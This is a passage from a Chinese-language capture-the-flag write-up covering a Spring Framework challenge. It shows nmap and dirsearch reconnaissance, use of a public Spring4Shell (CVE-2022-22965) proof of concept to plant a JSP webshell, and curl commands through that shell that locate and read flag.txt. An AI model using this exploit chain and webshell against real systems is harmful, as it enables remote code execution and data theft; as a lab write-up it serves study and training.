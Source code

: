 賽後和asef以及ccccc有聊到這一題，發現居然是在前端的code有一串base64被hidden，裡面其實就是flag檔案的絕對位置，幹...真的通好久啊
### Q8
#### 題目敘述
>你透過情報收集，聽聞某集團子公司有項服務上線使用的測試主機(192.168.100.88)因資訊人員便宜行事竟放在公開網路上。
此測試機(Spring Framework)的某項專案裡存在一個Web表單服務(/greeting)，它存在著某個漏洞，讓你有機會可以進行攻擊，你需要先找到正確的服務端口與頁面，並藉由這個程式的漏洞取得遠端主機的控制權限，進而取得公司內部資料(flag.txt)。
>
>[連線IP/連結資訊]
>192.168.100.88
>
>[備註]
>答題系統Flag輸入格式：CSC{FLAG_最多長度25可包含數字、英文大小寫、特殊字元及底線}

#### Hint
[提示一]
使用Nmap與目錄掃描工具(http://192.168.100.88:???/???/greeting)

[提示二]
AccessLogValve

[提示三]
也許有公開的POC使用?

[提示四]
Webshell + URL Encode

[提示五]
找不到資料?使用linux指令find / -type f –name 來找看看吧
#### Exploit
1. 先用nmap掃Port -> 8888
2. dirsearch看sub folder -> hello
    ```bash
    $ dirsearch -u "http://192.168.100.88:8888"
    ...
    400   795B   http://192.168.100.88:8888/\..\..\..\..\..\..\..\..\..\etc\passwd
    400   795B   http://192.168.100.88:8888/a%5c.aspx
    302     0B   http://192.168.100.88:8888/hello    -> REDIRECTS TO: /hello/
    ...
    ```
3. 得知路徑為http://192.168.100.88:8888/hello/greeting
4. 根據AccessLogValve得知漏洞應該為CVE-2022-22965
5. 直接使用[現成工具](https://github.com/sunnyvale-it/CVE-2022-22965-PoC)達到RCE
    ```bash
    $ python exploit-core.py --url "http://192.168.100.88:8888/hello/greeting" --file shell
    [*] Resetting Log Variables.
    [*] Response code: 200
    [*] Modifying Log Configurations
    [*] Response code: 200
    [*] Response Code: 200
    [*] Resetting Log Variables.
    [*] Response code: 200
    [+] Exploit completed
    [+] Check your target for a shell
    [+] File: shell.jsp
    [+] Shell should be at: http://192.168.100.88:8888/shell.jsp?cmd=id
    $ curl http://192.168.100.88:8888/shell.jsp\?cmd\=find%20/%20-iname%20flag.txt --output -
    /usr/local/share/man/flag.txt
    $ curl http://192.168.100.88:8888/shell.jsp\?cmd\=cat%20/usr/local/share/man/flag.txt --output -
    CSC{FLAG_can_we_cut_to_the_chase?}
